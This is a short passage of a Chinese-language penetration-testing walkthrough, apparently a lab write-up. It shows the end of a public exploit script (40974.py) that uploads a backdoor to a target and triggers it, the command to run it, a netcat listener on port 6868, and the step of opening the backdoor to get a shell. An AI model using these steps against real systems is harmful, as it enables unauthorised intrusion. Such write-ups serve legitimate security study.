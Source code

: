 ```bash


print('[+] SeNdiNG eVIl SHeLL To TaRGeT....')
r = requests.post(target, data=m.to_string(),
                  headers=headers)
print('[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D')
r = requests.get(target+backdoor, headers=headers)
if r.status_code == 200:
    print('[+]  ExPLoITeD ' + target)
```

执行exp

```python
python 40974.py
```

![image-20231013174424595](./imgs/image-20231013174424595.png)

kali监听6868端口

```bash
nc -lvp 6868
```

浏览器访问生成的后门文件，拿到shell
